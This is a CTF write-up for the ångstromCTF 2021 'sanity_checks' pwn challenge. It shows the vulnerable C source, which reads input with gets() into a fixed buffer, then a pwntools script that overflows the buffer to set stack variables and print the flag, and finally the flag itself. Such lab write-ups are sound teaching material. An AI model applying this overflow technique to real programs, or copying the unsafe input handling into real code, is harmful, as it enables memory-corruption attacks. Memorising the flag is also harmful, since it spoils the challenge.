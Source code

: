 ```yaml
---
layout: post
title: ångstromCTF 2021 - sanity_checks
categories: [Write-Ups, AngstromCTF]
tags: [AngstromCTF, Pwn]
featured-image:  AngstromCTF/icon.png
featured-image-alt: AngstromCTF
---
```


It's a write-up about the challenge : [AngstromCTF - sanity_checks](https://ctftime.org/task/15321)

	
## 1. Challenge


I made a program (source) to protect my flag. On the off chance someone does get in, I added some sanity checks to detect if something fishy is going on. See if you can hack me at /problems/2021/sanity_checks on the shell server, or connect with nc shell.actf.co 21303.

Author: kmh
```
  
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void main(){
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    char password[64];
    int ways_to_leave_your_lover = 0;
    int what_i_cant_drive = 0;
    int when_im_walking_out_on_center_circle = 0;
    int which_highway_to_take_my_telephones_to = 0;
    int when_i_learned_the_truth = 0;
    
    printf("Enter the secret word: ");
    
    gets(&password);
    
    if(strcmp(password, "password123") == 0){
        puts("Logged in! Let's just do some quick checks to make sure everything's in order...");
        if (ways_to_leave_your_lover == 50) {
            if (what_i_cant_drive == 55) {
                if (when_im_walking_out_on_center_circle == 245) {
                    if (which_highway_to_take_my_telephones_to == 61) {
                        if (when_i_learned_the_truth == 17) {
                            char flag[128];
                            
                            FILE *f = fopen("flag.txt","r");
                            
                            if (!f) {
                                printf("Missing flag.txt. Contact an admin if you see this on remote.");
                                exit(1);
                            }
                            
                            fgets(flag, 128, f);
                            
                            printf(flag);
                            return;
                        }
                    }
                }
            }
        }
        puts("Nope, something seems off.");
    } else {
        puts("Login failed!");
    }
}
```

## 2. Solution

this task is quiet easy, all you have to do is to over flow with password + padding +    p32(0x11)+p32(0x3d)+p32(0xf5)+p32(0x37)+p32(0x32) to meet the correct condition to read the flag

```
from pwn import *


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


def find_ip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendlineafter(':', payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
break *0x401235
break *0x40123f
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './checks'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

password = b"password123\x00"

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(password + cyclic(100))
offset -= len(password)

# Start program
io = start()

# Build the payload
payload = flat([
    password,
    (offset - 16) * asm('nop'),
    p32(0x11),
    p32(0x3d),
    p32(0xf5),
    p32(0x37),
    p32(0x32),
])

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(':', payload)
io.recvline()

# Get our flag!
flag = io.recv()
success(flag)
```



The flag was : **actf{if_you_aint_bout_flags_then_i_dont_mess_with_yall}**